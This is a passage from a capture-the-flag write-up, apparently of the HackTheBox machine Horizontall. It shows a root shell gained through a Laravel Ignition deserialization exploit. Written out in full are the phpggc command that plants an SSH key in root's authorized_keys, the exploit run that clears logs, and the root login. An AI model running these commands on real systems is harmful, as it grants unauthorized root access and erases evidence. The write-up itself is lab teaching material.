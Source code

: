It works, and is running as root!

#### Shell

I’ll regenerate a new payload, this time creating `/root/.ssh` if it doesn’t exist, and then writing my SSH key to `authorized_keys`:

```

oxdf@hacky$ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o ssh.phar --fast-destruct monolog/rce1 system 'mkdir -p /root/.ssh; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'

```

Run the exploit again:

```

oxdf@hacky$ python3 /opt/laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000 ssh.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
Exploit succeeded
+ Logs cleared

```

I’m now able to connect as root:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.10.125
...[snip]...
root@horizontall:~# 

```

And grab the flag:

```

root@horizontall:~# cat root.txt
6bf8cc06************************

```

## Beyond Root

### CVE-2019-18818

#### Exploit Script

I wanted to better understand this exploit and how it used the input email address (or didn’t). On first looking at the help, it looks like I need to know the admin email:
